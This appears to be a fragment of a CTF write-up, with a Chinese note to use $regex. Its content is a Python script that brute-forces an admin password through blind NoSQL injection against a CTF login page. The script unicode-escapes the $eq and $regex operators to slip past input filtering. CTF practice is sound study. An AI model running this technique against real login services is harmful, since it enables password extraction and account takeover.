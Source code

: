 用$regex来匹配

```python
import string
import requests

characters = string.ascii_letters + string.digits  # [A-Za-z0-9]
password = ""
payload = """{"username":{"$\\u0065\\u0071": "admin"}, "password": {"$\\u0072\\u0065\\u0067\\u0065\\u0078": "^%s"}}"""
url = "http://node4.buuoj.cn:26351/login.php"

for i in range(50):
    for character in characters:
        response = requests.post(url=url, data=(payload % (password + character)),
                                 headers={"Content-Type": "application/json; charset=UTF-8"})
        responseContent = response.content.decode()
        
        #print(f"[+] Trying {character} with response {responseContent}")
        response.close()
        if "登录了" in responseContent:
            password += character
            print(f"[*] Found new character {character} with password now which is {password}")
            break
```

![Untitled](../../CTF赛题/BUU月赛/attachment/SQL注入%207c83b7a8861f4e89aff2bded5a55302b/Untitled%2010.png)
